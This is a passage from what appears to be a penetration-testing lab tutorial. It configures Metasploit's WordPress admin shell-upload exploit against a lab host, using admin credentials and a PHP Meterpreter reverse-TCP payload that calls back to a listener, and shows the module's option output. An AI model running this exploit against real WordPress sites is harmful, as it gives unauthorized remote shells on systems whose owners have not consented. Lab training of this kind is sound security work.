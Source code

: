 The [wp\_admin\_shell\_upload](https://www.rapid7.com/db/modules/exploit/unix/webapp/wp_admin_shell_upload/) module from Metasploit can be used to upload a shell and execute it automatically.

The module uploads a malicious plugin and then uses it to execute a PHP Meterpreter shell. We first need to set the necessary options.

```shell
msf6 > use exploit/unix/webapp/wp_admin_shell_upload

[*] No payload configured, defaulting to php/meterpreter/reverse_tcp

msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhosts blog.inlanefreight.local
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set username john
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set password firebird1
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set lhost 10.10.14.15
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhost 10.129.42.195
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set VHOST blog.inlanefreight.local

```

We can then issue the `show options` command to ensure that everything is set up properly. In this lab example, we must specify both the vhost and the IP address, or the exploit will fail with the error `Exploit aborted due to failure: not-found: The target does not appear to be using WordPress`.

```shell
msf6 exploit(unix/webapp/wp_admin_shell_upload) > show options

Module options (exploit/unix/webapp/wp_admin_shell_upload):

   Name       Current Setting           Required  Description
   ----       ---------------           --------  -----------
   PASSWORD   firebird1                 yes       The WordPress password to authenticate with
   Proxies                              no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.129.42.195             yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80                        yes       The target port (TCP)
   SSL        false                     no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                         yes       The base path to the wordpress application
   USERNAME   john                      yes       The WordPress username to authenticate with
   VHOST      blog.inlanefreight.local  no        HTTP server virtual host

Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.15      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   WordPress

```
